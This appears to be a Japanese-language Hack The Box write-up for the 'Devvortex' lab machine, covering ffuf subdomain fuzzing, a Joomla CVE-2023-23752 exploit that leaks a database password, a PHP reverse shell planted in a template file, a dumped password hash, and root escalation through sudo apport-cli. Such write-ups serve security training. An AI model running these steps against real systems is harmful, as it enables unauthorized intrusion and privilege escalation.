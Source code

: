 ```yaml
---
title: "HTB_devvortex"
date: 2024-06-08T15:25:30+09:00
draft: false
---
```


## user

- nmap
  - ssh, http
- http
  - まず ffuf で subdomain を探す
    - ```ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt:FUZZ -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fw 4 -t 100```
  - 次にディレクトリを探す
    - ```ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://dev.vortex.htb/FUZZ -t 100 -ic```
  - ```/administrator``` が見つかる
  - Joomla! で動いている
- Joomla!
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla
  - version を見つける
    - ```/administrator/manifests/files/joomla.xml```
  - CVE が刺さる
    - https://github.com/Acceis/exploit-CVE-2023-23752
    - ```ruby exploit.rb http://dev.devvortex.htb```

```shell
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

- revshell
  - Template -> Customise(Cassiopeia) を編集する
  - error.php に php revshell を入れる(index.php には書き込み権限が無い)
  - Template Preview でトリガーする
- logan
  - Joomla! の DB を検索すると mysql が使われていると分かる
  - mysql にログインする
    - ```mysql -u lewis -p```
    - ```show tables;```
    - ```select joomla;```
    - ```use joomla;```
    - ```show tables;```
    - ```select * FROM sd4fg_users;```
  - logan のハッシュパスワードが見つかる
    - ```$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12```
  - ```su logan```
  - uset.txt

## root

- ```sudo -l```
  - ```/usr/bin/apport-cli``` が使える
  - https://0xd1eg0.medium.com/cve-2023-1326-poc-c8f2a59d0e00
- apport-cli
  - ```sudo /usr/bin/apport-cli --file-bug```
  - 1 -> 2 -> V -> Enter -> ```!/bin/bash```
